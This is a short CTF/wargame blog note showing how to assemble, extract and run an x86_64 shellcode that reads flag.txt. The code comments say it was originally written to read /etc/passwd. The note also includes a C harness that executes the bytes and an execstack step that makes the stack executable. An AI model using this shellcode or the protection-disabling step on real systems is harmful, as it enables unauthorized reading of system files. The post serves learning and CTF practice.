 Title: Testing shellcodes
Author: Victor Dorneanu
Date: 2016-08-23
Tags: c, asm, ctf, wargames
Category: notes

While playing some [wargames](http://blog.dornea.nu/tag/wargames/) where I had to read a file called **flag.txt** using C code, one possible solution (unfortunately not the right one) was to use shellcodes to read the file and dump its content. Here are my notes for future use.

~~~.asm
BITS 64
; Author Mr.Un1k0d3r - RingZer0 Team
; Read /etc/passwd Linux x86_64 Shellcode
; Shellcode size 82 bytes
global _start
 
section .text
 
_start:
    jmp _push_filename
   
_readfile:
; syscall open file
    pop rdi ; pop path value
    ; NULL byte fix
    xor byte [rdi + 11], 0x41
       
    xor rax, rax
    add al, 2
    xor rsi, rsi ; set O_RDONLY flag
    syscall
       
; syscall read file
    sub sp, 0xfff
    lea rsi, [rsp]
    mov rdi, rax
    xor rdx, rdx
    mov dx, 0xfff; size to read
    xor rax, rax
    syscall
   
; syscall write to stdout
    xor rdi, rdi
    add dil, 1 ; set stdout fd = 1
    mov rdx, rax
    xor rax, rax
    add al, 1
    syscall
   
; syscall exit
    xor rax, rax
    add al, 60
    syscall
   
_push_filename:
    call _readfile
    path: db "flag.txt"
~~~


## Shellcode compilation


Compile using **nasm**:

~~~.shell
$ nasm -f elf64 shellcode.asm -o shellcode.o
~~~

## Disassemble

Now you can disassemble the object file using **objdump**:

~~~.shell
shellcode.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <_start>:
   0:   eb 3f                   jmp    41 <_push_filename>

0000000000000002 <_readfile>:
   2:   5f                      pop    %rdi
   3:   80 77 0b 41             xorb   $0x41,0xb(%rdi)
   7:   48 31 c0                xor    %rax,%rax
   a:   04 02                   add    $0x2,%al
   c:   48 31 f6                xor    %rsi,%rsi
   f:   0f 05                   syscall 
  11:   66 81 ec ff 0f          sub    $0xfff,%sp
  16:   48 8d 34 24             lea    (%rsp),%rsi
  1a:   48 89 c7                mov    %rax,%rdi
  1d:   48 31 d2                xor    %rdx,%rdx
  20:   66 ba ff 0f             mov    $0xfff,%dx
  24:   48 31 c0                xor    %rax,%rax
  27:   0f 05                   syscall 
  29:   48 31 ff                xor    %rdi,%rdi
  2c:   40 80 c7 01             add    $0x1,%dil
  30:   48 89 c2                mov    %rax,%rdx
  33:   48 31 c0                xor    %rax,%rax
  36:   04 01                   add    $0x1,%al
  38:   0f 05                   syscall 
  3a:   48 31 c0                xor    %rax,%rax
  3d:   04 3c                   add    $0x3c,%al
  3f:   0f 05                   syscall 

0000000000000041 <_push_filename>:
  41:   e8 bc ff ff ff          callq  2 <_readfile>

0000000000000046 <path>:
  46:   66 6c                   data16 insb (%dx),%es:(%rdi)
  48:   61                      (bad)  
  49:   67 2e 74 78             addr32 je,pn c5 <path+0x7f>
  4d:   74                      .byte 0x74

~~~

## Assembler to C

Now convert the opcodes to some C array:

~~~.shell
$ for i in $(objdump -d shellcode.o |grep "^ " |cut -f2); do echo -n '\\x'$i; done;echo
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x66\x6c\x61\x67\x2e\x74\x78\x74
~~~

Now use this code:

~~~.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>

unsigned char code[] = \
"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x66\x6c\x61\x67\x2e\x74\x78\x74";

int main(int argc, char **argv) {
    void (*fp) (void);
    fp = (void *)code;
    fp();
}

~~~


## C code compilation

... and compile it.

~~~.shell
$ gcc -O3 -Wall -fstack-protector-all -fPIE bin.c -o bin
bin.c: In function 'main':
bin.c:20:1: warning: control reaches end of non-void function [-Wreturn-type]
 }
~~~

## Make stack executable

The binary will segfault if executed. That's because the stack isn't executable:

~~~.shell
$ readelf -l bin | grep -C 2 GNU_STACK

  GNU_EH_FRAME   0x00000000000005e4 0x00000000004005e4 0x00000000004005e4
                 0x0000000000000034 0x0000000000000034  R      4
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     10
~~~

Let's make the stack executable:

~~~.shell
$ /usr/sbin/execstack -s bin
~~~

And finally run the executable:

~~~.shell
$ cat flag.txt
bla
$ ./bin
bla
~~~
